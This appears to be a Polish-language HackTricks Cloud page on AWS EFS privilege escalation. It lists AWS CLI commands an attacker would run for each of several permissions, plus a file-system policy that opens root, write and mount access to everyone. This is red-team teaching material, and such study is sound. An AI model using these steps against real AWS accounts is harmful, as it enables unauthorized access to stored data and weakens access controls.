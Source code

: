 # AWS - EFS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

Więcej **informacji o EFS** w:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Pamiętaj, że aby zamontować EFS, musisz znajdować się w podsieci, w której EFS jest udostępnione i mieć do niego dostęp (grupy zabezpieczeń). Jeśli to się dzieje, domyślnie zawsze będziesz mógł go zamontować, jednak jeśli jest chronione przez polityki IAM, musisz mieć dodatkowe uprawnienia wymienione tutaj, aby uzyskać do niego dostęp.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Dzięki któremukolwiek z tych uprawnień atakujący może **zmienić politykę systemu plików**, aby **dać ci dostęp** do niego lub po prostu **usunąć ją**, aby **przyznać domyślny dostęp**.

Aby usunąć politykę:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Aby to zmienić:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Dzięki temu uprawnieniu atakujący będzie mógł **zamontować EFS**. Jeśli uprawnienie do zapisu nie jest domyślnie przyznawane wszystkim, którzy mogą zamontować EFS, będzie miał tylko **dostęp do odczytu**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Dodatkowe uprawnienia `elasticfilesystem:ClientRootAccess` i `elasticfilesystem:ClientWrite` mogą być używane do **zapisu** wewnątrz systemu plików po jego zamontowaniu oraz do **dostępu** do tego systemu plików **jako root**.

**Potencjalny wpływ:** Pośrednie podniesienie uprawnień poprzez zlokalizowanie wrażliwych informacji w systemie plików.

### `elasticfilesystem:CreateMountTarget`

Jeśli atakujący znajduje się w **podsieci**, w której **nie ma punktu montowania** EFS, może po prostu **utworzyć jeden w swojej podsieci** z tym uprawnieniem:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potencjalny wpływ:** Pośrednie podniesienie uprawnień poprzez zlokalizowanie wrażliwych informacji w systemie plików.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

W scenariuszu, w którym atakujący odkrywa, że EFS ma punkt montażowy w jego podsieci, ale **żaden z grup zabezpieczeń nie zezwala na ruch**, mógłby po prostu **zmienić to, modyfikując wybrane grupy zabezpieczeń**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potencjalny wpływ:** Pośrednie podniesienie uprawnień poprzez zlokalizowanie wrażliwych informacji w systemie plików.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
